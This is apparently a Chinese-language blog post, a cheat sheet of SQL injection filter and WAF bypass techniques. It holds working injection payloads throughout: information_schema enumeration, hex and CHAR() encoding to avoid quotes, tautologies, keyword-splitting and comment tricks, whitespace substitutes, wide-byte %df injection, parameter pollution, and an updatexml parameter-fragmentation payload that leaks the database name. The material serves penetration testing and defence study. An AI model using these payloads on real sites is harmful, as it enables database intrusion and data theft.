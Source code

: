 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

### mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
为了查找有用的列名  
	where column_name LIKE ‘%PASS%’
遇到单引号转译 可以考虑使用16进制绕过：
    table_name=’users ’——》table_name=0×757365727 
避开过滤
    输入单引号没反应，尝试“
单引号被阻止
     where name=‘Marcus’ 可以使用ascII 替代字符串不必使用单引号 ‘a’->CHR(97)
    在mysql中连接字符串是CONCAT函数，select name=concat(CHAR(97),char(114))
    Oracle中 select name=chr(97)||chr(114)
    Ms-SQL中 select name=char(97)+char(114)
--注释符被阻止时考虑闭合
     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a 
单纯的闭合
    ‘ playload and '
=号 被禁止
    使用<>（不等于）例：!(table_schema<>database())
关键字过滤 
  select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54
                                    se%a0 lect来绕过waf
  空格过滤
    使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
  %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true

在url中使用--注释时，可能会需要使用--+才能成功注释
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：
    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)
    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1
这个构造语句把中间的password参数给注释掉了

